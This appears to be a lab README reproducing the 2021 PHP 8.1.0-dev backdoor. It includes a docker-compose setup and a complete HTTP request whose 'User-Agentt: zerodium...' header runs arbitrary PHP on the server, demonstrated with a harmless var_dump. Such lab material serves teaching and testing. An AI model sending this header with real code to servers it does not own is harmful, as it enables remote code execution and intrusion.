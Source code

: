 # PHP 8.1.0-dev User-Agentt Backdoor

[中文版本(Chinese version)](README.zh-cn.md)

PHP version 8.1.0-dev was implanted with a backdoor on March 28, 2021, but the backdoor was quickly discovered and removed. When this backdoor is present on a server, an attacker can execute arbitrary code by sending a **User-Agentt** header.

References:

- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a

## Vulnerable Environment

Start a PHP 8.1-dev server with the backdoor.

```
docker-compose up -d
```

After the environment is started, the service runs at ``http://your-ip:8080``.

## Vulnerability Reproduce

Send the following request to execute the code `var_dump(233*233);`:

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close


```

![](1.png)